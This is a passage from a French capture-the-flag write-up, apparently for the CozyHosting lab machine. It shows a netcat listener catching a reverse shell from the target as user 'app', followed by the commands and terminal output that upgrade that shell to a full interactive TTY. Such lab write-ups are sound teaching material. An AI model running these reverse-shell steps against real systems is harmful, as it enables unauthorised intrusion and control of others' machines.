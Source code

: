 ![Alt text](image-4.png)

Sur la machine hôte, on attend avec **nc** sur le port 44444
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvp 44444
listening on [any] 44444 ...
connect to [10.10.14.125] from cozyhosting.htb [10.10.11.230] 39782
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
app@cozyhosting:/app$ export TERM=xterm
export TERM=xterm
app@cozyhosting:/app$ ^Z
zsh: suspended  nc -lvp 44444

                                                                
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvp 44444

app@cozyhosting:/app$
```
